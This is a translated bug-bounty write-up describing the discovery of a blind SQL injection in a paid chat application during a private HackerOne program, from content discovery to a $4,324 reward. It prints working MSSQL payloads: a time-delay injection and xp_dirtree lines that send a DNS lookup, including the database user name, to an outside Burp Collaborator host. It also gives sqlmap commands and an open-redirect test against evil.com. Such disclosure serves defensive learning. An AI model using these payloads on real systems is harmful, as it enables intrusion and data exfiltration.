








# 一个 YouTube 视频如何通过 SQL 注入导致价值 4324 美元奖金网络应用程序

> 原文：<https://infosecwriteups.com/how-a-youtube-video-lead-to-pwning-a-web-application-via-sql-injection-worth-4324-bounty-285f0a9b9f6c?source=collection_archive---------1----------------------->

这篇文章是关于我在 HackerOne 上的一个私人项目中的一个发现。因为这是一个私人项目，所以我做了一些编辑以防止任何敏感信息的泄露。这是我第一次写文章，所以请忽略错误。

所以当我被邀请在 HackerOne 上破解这个私人程序时，我做了一些基本的侦察，包括子域枚举。在使用一些开源工具如 AMASS 等收集子域名后，我开始逐个查看。在这个过程中，我偶然发现了一个域名，假设它是`**chat.example.com**`。登录页面提供默认的 IIS 服务器登录页面。

在遇到默认网页后，总有可能会出现一些内容，所以我继续使用我的自定义单词表，通过目录强制对资产进行内容发现。我使用了`**ffuf**`来模糊网络服务器的根目录`/`，结果我只得到一个目录，假设它是`**/vendor-name**`。在`**https://chat.example.com/vendorname/**` 访问应用程序，给出 403 禁止错误

在遇到错误时，我模糊了`**/vendor-name**`目录，这引导我到另一个成功的目录，假设它是`**/software-name**`，这也给出了一个 403 禁止错误。Fuzzing `**/vendor-name/software-name/**` endpoint 给出了多个类似`**/bin,/scripts,/logs,/styles**`的结果，但没有什么有趣的。看起来非常有趣，但是在这些端点上运行单词列表模糊化并没有产生任何有趣的结果。我尝试了各种扩展`**html,aspx,ashx,asp,bak,log**`，但没有一个工作，它看起来像一个死胡同。

唐纳德·詹纳蒂在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

然后我继续用谷歌搜索前两个目录的名字，因为它们看起来像是`**/vendor-name/software-name**`，所以我用谷歌搜索了`**Vendor-Name Software-Name**`，我得到了一些关于安装在服务器上的软件的结果和信息。这是一个付费聊天/支持软件。之后我在 GitHub 等网站上搜索。用于应用程序的目录结构，但没有可用的内容。在浏览了多个结果后，我发现了一个供应商制作的 **YouTube** 视频，该视频解释了如何安装和配置该应用程序。**由于这是一个关于软件的演示，讲师正在演示配置各种配置文件的方法，因此在视频中，讲师打开了安装服务器的文件夹，当他深入到软件的目录中时，我能够将我的发现与软件的目录结构对应起来。最后，在复制粘贴各种目录/文件并从视频中创建单词表后，我在视频的帮助下找到了一些表格，其中一个是** `**https://chat.example.com/vendor-name/software-name/directory1/vulnerableform.html**`。

在填写完详细信息并点击`**Send**` 之后，在发送数据之前，发出了一个类似于`**https://chat.example.com/vendor-name/software-name/_randomfiles.aspx?_param1=1&_returnURL=%2Fexample.html**` 的预先获取请求。这看起来很有趣，所以我尝试查看请求和响应。响应包含一个指向`**_returnURL**`中提到的路径的 HTML 重定向，所以我试图在`**_returnURL**` 中给出`**https://evil.com**`，响应包含一个指向`**https://evil.com**`的 HTML 重定向，但是像往常一样**打开重定向**在**范围之外**。我试图在 URL 中插入`**javascript:alert(1)**`,但是它被正确编码了。在此之后，我尝试查看 SQL 注入漏洞的另一个参数，更改其值对响应没有影响，因此基于错误的 SQLI 是不可能的，所以我想对该参数尝试一些基本的**盲** **SQLI** 有效负载。在尝试了一些有条件的**盲** **SQLI** 有效载荷以引起一些反应差异或一些错误并且失败后，我试图注入一些**盲** **SQLI** 有效载荷以触发时间延迟。由于它是一台微软服务器，因此后端数据库很可能是支持批处理查询的微软 SQL Server，我尝试使用参数上最基本的有效负载(即`**waitfor delay'0:0:20'--**` )的无条件时间延迟来引起一些响应延迟，令我惊讶的是，注入成功了，响应延迟了 20 秒。有多种方法可以利用盲目的 SQL 注入，如触发条件响应和带外利用。最常见的方法是让应用程序触发我们控制的系统的带外交互。最常见的方法是使用 DNS(域名服务)协议，因为几乎每个组织都允许传出 DNS 查询，这种情况也是如此。

从那以后，一切都是关于谷歌搜索的东西。起初，为了确认漏洞，我使用了 **"xp_dirtree"** 一个存储过程，它将尝试列出其第一个参数中给定的目录或网络共享的内容。如果列表是一个网络共享，它将为它做一个 **DNS 查找**，如果我们得到一个回调，我们可以确认 **OOB** 提取数据是可能的。

**PingBack 有效载荷**

`**;declare @q varchar(99);set @q=’\\[YOU_BURP_COLLAB_SUBDOMAIN_PART_HERE].burpcollab’+’orator.net\ogy’; exec master.dbo.xp_dirtree @q; —**`

**用户名提取有效负载**

`**;declare @q varchar(99);set @q=’\\[YOU_BURP_COLLAB_SUBDOMAIN_PART_HERE]’+(SELECT user_name())+’.burpcollab’+’orator.net\ogy’; exec master.dbo.xp_dirtree @q; —**`

但是，手动提取的字符数量是有限的。如果查询结果小于 253，包括 burp collaborator 域，那么只有数据提取是可能的，但这足以对报告进行分类，但为了进一步利用，我使用了 **SQLMAP** ，它可以轻松地在我们的 **POC** 中提供我们想要的数据。

1.  **注射确认**

`**python3 sqlmap.py -u https://chat.example.com/vendorname/softwarename/_randomfiles.aspx?param1=1**`

2.**获取数据库**

`**python3 sqlmap.py -u https://chat.example.com/vendorname/softwarename/_randomfiles.aspx?param1=1 — dbs**`

在此之后，我创建了包含所有信息的报告，并将其提交给该程序，在 HackerOne Triager 可以验证该发现之前，该资产已被该程序移除以进行缓解，但 HackerOne Triager 与该程序确认了这一点，并以`**Critical [9.3]**` 严重性对报告进行了分类。缓解后，应用程序启动并安全运行。

漏洞解决后，我被程序奖励了 4324 美元的赏金:)

如果你觉得这个博客很有趣，请分享它，如果你有任何问题，可以在推特上发短信给我，号码是 https://twitter.com/k4k4r07。感谢阅读:)